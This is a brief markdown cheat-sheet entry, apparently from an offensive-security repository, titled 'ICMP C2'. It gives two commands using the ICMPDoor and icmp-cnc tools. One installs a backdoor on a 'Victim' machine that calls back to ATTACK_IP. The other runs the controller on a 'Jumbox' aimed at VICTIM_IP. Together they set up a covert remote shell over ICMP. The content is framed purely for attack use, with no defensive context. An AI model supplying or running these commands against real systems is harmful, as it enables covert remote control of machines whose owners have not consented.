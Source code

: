 # ICMP C2

## Binaries: ICMPDoor, icmp-cnc

### 1) Victim: 

    sudo icmpdoor -i INTERFACE -d ATTACK_IP

### 2) Jumbox: 

    sudo icmp-cnc -i INTERFACE -d VICTIM_IP

